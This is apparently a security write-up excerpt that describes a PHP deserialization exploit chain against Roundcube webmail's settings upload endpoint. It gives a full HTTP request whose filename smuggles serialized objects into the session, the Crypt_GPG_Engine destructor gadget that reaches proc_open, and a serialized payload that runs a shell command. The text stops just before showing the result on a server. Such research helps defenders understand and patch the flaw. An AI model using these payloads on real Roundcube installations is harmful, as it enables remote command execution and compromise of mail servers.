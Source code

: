 *The ideas:*
Normal filename lead to : 
**!identity|..............................everything just data not have the '|' so just get skipped all..........**

Malicious  filename  which has ("|") lead to :
**!identity|.........(meet the "|"in filename)..... | s:1:"a"; (--EVERYTHING SERIALIZED YOU WANT--)**

```http=
POST /?_task=settings&_framed=1&_remote=1&_from=edit-!identity&_id=&_uploadid=upload1749641647222&_unlock=loading1749641647222&_action=upload HTTP/1.1
......
STUFFS..
......
Content-Disposition: form-data; name="_file[]"; filename="|s:1:\"a\";inject|O:5:\"pwned\":0:{};"
```

- Then dumps database and unserialize to see the result : 
![image](https://hackmd.io/_uploads/SyCw-xDQge.png)

**My OBJECT is created now in the SESSION !!!**

## Final chain : 
- So the final things we need is a gadget to trigger the chain.
- Fortunately there's a vendor vulnerable to this !!
```php
// vendor/pear/Crypt/GPG/Engine.php
 public function __destruct()
    {
        $this->_closeSubprocess();
        $this->_closeIdleAgents();
    }
 private function _closeIdleAgents()
{
	if ($this->_gpgconf) {
		// before 2.1.13 --homedir wasn't supported, use env variable
		$env = array('GNUPGHOME' => $this->_homedir);
		$cmd = $this->_gpgconf . ' --kill gpg-agent';

		if ($process = proc_open($cmd, array(), $pipes, null, $env)) {
			proc_close($process);
		}
	}
}
```
- So we just need to create an serialize for this one my payload is (in custom serialize form): 
```php
$seri = '0|O:16:"Crypt_GPG_Engine":1:{s:8:"_gpgconf";s:4:"id;#";}';
```
- The pear has fixed this bug with adding checking if the $this->_gpconf is executable before add into the $cmd.
Then try it on server : 
